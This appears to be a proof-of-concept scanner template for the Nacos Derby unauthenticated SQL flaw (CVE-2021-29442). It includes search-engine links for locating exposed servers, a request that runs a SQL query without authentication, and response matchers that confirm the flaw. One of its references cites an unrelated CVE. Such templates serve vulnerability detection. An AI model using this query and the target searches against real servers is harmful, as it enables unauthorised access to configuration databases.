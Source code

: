 # QVD-2024-26473
QVD-2024-26473 &amp;&amp; CVE-2021-29442


# FOFA Search:
https://fofa.info/result?qbase64=YXBwPSJOYWNvcyI%3D
# ZoomEye Search:
https://www.zoomeye.org/searchResult?q=app%3A%22Alibaba%20Nacos%22


# POC:
id: CVE-2021-29442
info:
  name: Nacos Access control error vulnerability(CVE-2021-29442)
  author: Hu$SHA
  description: Allowing access the /derby without authentication and perform operations, such as querying or deleting databases
  reference:
    - https://github.com/VictorShem/CVE-2024-4577
    - https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-202104-2000
    - https://www.cnvd.org.cn/flaw/show/CNVD-2020-67618
    - https://ti.qianxin.com/vulnerability/detail/94994
  severity: critical
  tags: cve, sql injection, nacos, rce

http:
  - method: GET
    path:
      - "{{BaseURL}}/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st"

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - "application/json"

      - type: regex
        part: body
        regex:
          - "\"TABLENAME\":\"(?:(?:(?:(?:(?:APP_CONFIGDATA_RELATION_[PS]UB|SYS(?:(?:CONGLOMERAT|ALIAS|(?:FI|RO)L)E|(?:(?:ROUTINE)?|COL)PERM|(?:FOREIGN)?KEY|CONSTRAINT|T(?:ABLEPERM|RIGGER)|S(?:TAT(?:EMENT|ISTIC)|EQUENCE|CHEMA)|DEPEND|CHECK|VIEW|USER)|USER|ROLE)S|CONFIG_(?:TAGS_RELATION|INFO_(?:AGGR|BETA|TAG))|TENANT_CAPACITY|GROUP_CAPACITY|PERMISSIONS|SYSCOLUMNS|SYS(?:DUMMY1|TABLES)|APP_LIST)|CONFIG_INFO)|TENANT_INFO)|HIS_CONFIG_INFO)\""

      - type: status
        status:
          - 200
